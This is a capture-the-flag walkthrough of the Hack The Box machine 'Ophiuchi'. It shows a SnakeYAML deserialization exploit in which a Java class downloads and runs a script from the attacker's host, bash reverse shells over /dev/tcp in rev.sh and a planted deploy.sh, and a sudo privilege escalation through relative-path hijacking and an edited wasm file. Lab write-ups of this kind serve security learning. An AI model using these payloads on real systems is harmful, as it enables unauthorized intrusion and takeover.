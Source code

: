 # Hackthebox - Ophiuchi

First I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.168.125
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 8080 which is HTTP is open, so I open the webpage and got this.
![](Ophiuchi/webpage.png)

Next I started a gobuster to find directories.
![](Ophiuchi/gobuster.png)

I try clicking around the website and see that it is a YAML parser. I try putting in some stuff but always got a message saying the feature is disabled.                              
![](disabled.png)

I started searching about "YAML deserilization exploit" and got an article (https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858). I just try running the exploit blindly just to see if it works.
![](payload.png)

I setup a listener and got a hit back from the box.
![](curledhit.png)

So now I know the exploit works, but I still doesn't have command execution. The article aboves dives in more to how we can do a remote command execution through this exploit. We basically provide a java class file which contains our command. I want to test the exploit first so I do a simple curl command to my machine. Below is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
        Runtime.getRuntime().exec("curl 10.10.14.66:8888");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

I convert the java file to a class file.
![](convertjavaclass.png)

Setup a python server to host my class file.
![](python3server.png)

Send the YAML payload to the web server.                                                                                      
![](payload2.png)

I got a curl back from the box to my machine.
![](curled2.png)

So its confirmed that the command execution works. Now I created a reverse shell bash script and download it to the box and execute it with bash. Here is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("curl 10.10.14.66:8000/rev.sh -o /tmp/rev.sh");
			Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

I created the **rev.sh** bash script.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.66/7777 0>&1
```

Setup a listener, send the payload and got a shell as the tomcat user.
![](tomcatshell.png)

Next I try looking through the conf directory in tomcat's home directory and got a credentials for the user admin.
![](adminpass.png)

I try SSH to the box as admin with that password and got in.
![](userflag.png)

I try running **sudo -l** and the user admin can execute a file written in go.
![](sudo-l.png)

I look at the contents of the file and try to analyse what it does.
```bash
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)

func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

Its calling **deploy.sh** and **main.wasm** but isn't using absolute paths. Which means I can make the script call my files instead.

I go to **/dev/shm** and created **deploy.sh** file.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.66/8888 0>&1'
```
The file will only execute the **deploy.sh** file if variavle f is 1. The variable f is taken from **main.wasm**, which is a web assembly file. I search around for how to work with a wasm file and found a tool (https://github.com/webassembly/wabt). The wasm file can be converted to web assembly text format which is more human readable.

So I send the **main.wasm** file to my box.
![](ncsendwasm.png)

Convert it into wat format.
![](convertwat.png)

Now I can see the contents.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

There is a function called info which is pulled by the **index.go** file. So I can just make the info function returns 1. So I edit the file with nano.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

I converted the wat file back to wasm format.
![](wattowasm.png)

curl the new wasm file
![](ls-la.png)

Execute the full sudo command.
![](runsudo.png)

And I got a shell as root.
![](rooted.png)
